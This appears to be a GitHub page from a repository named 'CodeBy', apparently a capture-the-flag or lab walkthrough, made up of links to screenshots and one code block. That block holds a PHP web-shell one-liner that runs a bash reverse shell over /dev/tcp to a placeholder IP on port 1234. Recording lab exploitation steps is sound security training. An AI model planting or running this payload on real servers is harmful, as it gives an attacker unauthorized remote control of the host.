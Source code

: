 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db4858eb-6792-4c83-aaa7-905e15042fa2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8dfdf3ff-d134-490e-b84b-ee97820f10e6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/844b2ff7-0595-487d-9355-d737d02590f0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c591bfa9-3f38-460a-8b53-9f41b9befd8e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d9abc43a-e4f2-4b44-b874-7a5bb3738ffe)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7fb9d489-a93c-4070-99bb-831852cd5a61)
```
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d79a4cb2-60ff-44a7-a001-230de98ec67e)
